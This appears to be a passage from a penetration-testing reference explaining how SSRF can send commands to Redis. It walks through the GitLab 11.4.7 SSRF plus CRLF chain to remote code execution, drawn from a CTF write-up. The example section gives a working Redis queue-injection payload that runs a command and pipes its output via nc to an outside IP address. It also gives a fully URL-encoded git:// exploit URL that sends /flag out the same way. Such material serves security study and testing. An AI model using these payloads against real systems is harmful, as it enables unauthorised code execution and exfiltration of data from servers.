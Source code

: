 ## SSRF talking to Redis

If you can send clear text request to Redis, you can communicate with it as Redis will read line by line the request and just respond with errors to the lines it doesn't understand:

```bash
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Accept-Encoding:'
-ERR unknown command 'Via:'
-ERR unknown command 'Cache-Control:'
-ERR unknown command 'Connection:'
```

Therefore, if you find a SSRF vuln in a website and you can control some headers (maybe with a CRLF vuln) or POST parameters, you will be able to send arbitrary commands to Redis.

## Example: Gitlab SSRF + CRLF to Shell

In Gitlab11.4.7 were discovered a SSRF vulnerability and a CRLF. The SSRF vulnerability was in the import project from URL functionality when creating a new project and allowed to access arbitrary IPs in the form [0:0:0:0:0:ffff:127.0.0.1] (this will access 127.0.0.1), and the CRLF vuln was exploited just adding %0D%0A characters to the URL.

Therefore, it was possible to abuse these vulnerabilities to talk to the Redis instance that manages queues from gitlab and abuse those queues to obtain code execution. The Redis queue abuse payload is:

```bash
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
```

And the URL encode request abusing SSRF and CRLF to execute a whoami and send back the output via nc is:

```bash
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20127%2E0%2E0%2E1%202222%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf123321.git
#For some reason (as for the author of https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/ where this info was took from) the exploitation worked with the git scheme and not with the http scheme.
```
